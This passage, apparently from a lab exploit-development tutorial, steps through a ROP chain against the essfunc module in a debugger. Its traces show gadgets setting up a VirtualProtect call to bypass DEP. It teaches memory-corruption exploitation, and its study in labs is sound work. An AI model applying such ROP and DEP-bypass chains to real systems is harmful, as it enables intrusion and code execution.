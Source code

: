 Let's set a breakpoint at the address of the instruction which restores `EAX` from `ECX` aka `0x6250219d` and step through-it once again.

```text
Breakpoint 0 hit
essfunc!EssentialFunc14+0xbd3:
6250219d 89c8   mov eax,ecx
```

After this gadget is executed, `EAX` points to the start of the `VirtualProtect` skeleton once again which the address is `0x00ecf228`.

Stepping through the gadgets until the `mov  [esp+0x00], eax ; call  [0x62507124]` instruction is reached:

```text
essfunc!EssentialFunc14+0x4d3:
62501a9d 890424   mov dword ptr [esp],eax
```

After stepping over this instruction, let's examine the stack:

```text
0:003> dd esp L1
00ecfa40  00ecf228
```

As shown above, the value of `EAX` is at the top of the stack. Now let's step into the `call` instruction:

```text
essfunc!EssentialFunc14+0x4d6:
62501aa0 ff1524715062   call dword ptr [essfunc!EssentialFunc14+0x5b5a (62507124)]

0:003> t
...
essfunc!EssentialFunc3+0x7:
625014e1 5b              pop     ebx
```

Before stepping through the `pop ebx` instruction, let's examine the stack:

```text
0:003> dds esp L3
00ecfa3c  62501aa6
00ecfa40  00ecf228
00ecfa44  62501d08
```

Now the address on top of the stack is the return addresses which was placed on the stack because of the `call` instruction. Let's pop it off and re-examine the stack afterwards:

```text
essfunc!EssentialFunc3+0x8:
625014e2 5b              pop     ebx

0:003> dds esp L1
00ecfa40  00ecf228
```
